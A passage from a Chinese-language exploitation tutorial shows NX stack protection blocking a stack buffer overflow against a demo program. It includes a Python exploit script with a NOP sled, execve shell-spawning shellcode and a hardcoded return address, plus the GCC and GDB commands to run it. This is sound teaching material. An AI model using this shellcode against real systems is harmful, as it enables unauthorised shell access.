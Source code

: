 现在，在禁用 NX 的情况下编译它：

```
$ gcc -fno-stack-protector -z execstack nx.c -o nx
```

在 GDB 中打开它：

```
$ gdb ./nx
```

然后，让我们运行此漏洞：

```
#!/usr/bin/python
from struct import *

buffer = ''
buffer += '\x90'*232
buffer += '\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05'
buffer += pack("<Q", 0x7fffffffe2c0)
f = open("input.txt", "w")
f.write(buffer)
```

执行漏洞利用：

```
$ python exploit.py
```

在 GDB 内部，运行以下命令：

```
$ run $(cat input.txt)
```

在以下屏幕截图中可以看到前面命令的输出：

![](../images/00414.jpeg)

现在，让我们在启用 NX 的情况下尝试相同的漏洞：

```
$ gcc -fno-stack-protector nx.c -o nx
```

然后，在 GDB 中打开它并运行以下命令：

```
$ run $(cat input.txt)
```

在以下屏幕截图中可以看到前面命令的输出：

![](../images/00415.jpeg)

那么，为什么代码会卡在这个地址？
